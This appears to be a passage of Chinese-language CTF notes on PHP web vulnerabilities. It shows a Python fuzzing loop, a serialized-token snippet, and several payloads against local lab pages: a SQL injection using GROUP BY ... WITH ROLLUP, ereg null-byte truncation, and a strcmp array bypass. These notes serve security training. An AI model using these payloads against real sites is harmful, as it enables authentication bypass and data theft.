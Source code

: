 ```python
    rq = requests.get("http://127.0.0.1/vuln/CTF/1/index.php?number=%s191"%("%%%02X"%i))
    if '1' in rq.text:
        print "%%%02X"%i
```
Fuzzing结果如下:
```
%0C
%2B
```



资料：

- [PHP类型与逻辑+fuzz与源代码审计](http://www.chnpanda.com/961.html)

## 03 多重加密

```
<?php

$arr = array(['user'] === 'ichunqiu');
$token = base64_encode(gzcompress(serialize($arr)));
print_r($token);
// echo $token;

?>
```

`eJxLtDK0qs60MrBOAuJaAB5uBBQ=`


## 04 SQL注入_WITH ROLLUP绕过


`admin' GROUP BY password WITH ROLLUP LIMIT 1 OFFSET 1-- - `

资料：

- [实验吧 因缺思汀的绕过 By Assassin（with rollup统计）](http://blog.csdn.net/qq_35078631/article/details/54772798)
- [使用 GROUP BY WITH ROLLUP 改善统计性能](http://blog.csdn.net/id19870510/article/details/6254358)
- [因缺思汀的绕过](http://www.bubuko.com/infodetail-2169730.html)

## 05 ereg正则%00截断

http://127.0.0.1/Php_Bug/05.php?password=1e9%00*-*

资料：

- [eregi()](http://www.am0s.com/functions/203.html)

## 06 strcmp比较字符串

`http://127.0.0.1/Php_Bug/06.php?a[]=1`
